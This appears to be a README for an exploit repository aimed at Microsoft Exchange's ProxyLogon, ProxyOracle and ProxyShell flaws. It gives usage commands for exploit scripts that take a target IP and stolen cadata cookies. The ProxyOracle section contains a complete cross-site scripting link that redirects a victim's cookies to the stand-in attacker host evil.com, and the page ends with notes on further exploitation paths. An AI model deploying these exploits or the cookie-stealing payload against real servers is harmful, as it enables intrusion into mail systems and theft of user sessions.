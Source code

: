 # ProxyVulns

### ProxyLogon

`Usage: python3 26855.py 1.1.1.1`

![](img/26855.png)

### ProxyOracle

``` url
Once a victim clicks this link, evil.com will receive the cookies.

https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

``` bash
pip3 install pycryptodome

Usage: python3 31196.py 1.1.1.1 'cadata=xxx; cadataTTL=yyy; ...'
```

![](img/31196.png)

### ProxyShell

``` bash
pip3 install pypsrp

Usage: python3 34473.py 1.1.1.1

Usage: python3 31207.py 1.1.1.1 [Local File Path] [UNC Absolute Path]
```

![](img/34473.png)

![](img/31207.png)

> Not working in some versions target(due to `/@gmail.com` path), maybe fix it later

### Others

- `Cookie: securitytoken=foobar`

- `/owa/calendar/foobar@exchange.local/foobar/owa14.aspx/.js`

## Reference

[ProxyLogon Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://docs.microsoft.com/en-us/exchange/architecture/mailbox-servers/recreate-arbitration-mailboxes?view=exchserver-2019

[ProxyOracle Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://github.com/mwielgoszewski/python-paddingoracle

[ProxyShell Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)